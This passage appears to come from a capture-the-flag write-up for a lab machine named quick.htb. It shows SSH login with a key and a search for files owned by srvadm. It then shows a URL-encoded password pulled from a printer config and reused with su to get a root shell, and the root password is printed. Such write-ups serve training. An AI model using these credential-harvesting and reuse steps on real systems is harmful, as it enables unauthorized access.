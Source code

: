 We can now ssh in:

```
ssh -i ~/.ssh/id_rsa srvadm@quick.htb
```

Now that we have srvadm, we can look for interesting files owned by him:

```
find / -user srvadm >> test.txt
cat test.txt

...
/home/srvadm/.cache                                 
/home/srvadm/.cache/conf.d                              
/home/srvadm/.cache/conf.d/printers.conf            
/home/srvadm/.cache/conf.d/cupsd.conf          
/home/srvadm/.cache/logs                        
/home/srvadm/.cache/logs/debug.log                  
/home/srvadm/.cache/logs/error.log                      
/home/srvadm/.cache/logs/cups.log                   
/home/srvadm/.cache/packages                            
/home/srvadm/.cache/motd.legal-displayed 
...
```

Those conf.d files look interesting! Taking a look at printers.conf, we see the following URI:

https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer

If we URL-decode this, it becomes

https://srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb/printer

That &ftQ4K3SGde8? definitely looks like a password. We can check sudo -l and see if srvadm can run anything with sudo, but this isn't his password. Of course, as always, we'll try just su'ing to root.

```
su 
Password: &ftQ4K3SGde8?

root@quick:/home/srvadm/.cache/conf.d# whoami
root
```

Well that was easy!

**root:&ftQ4K3SGde8?**

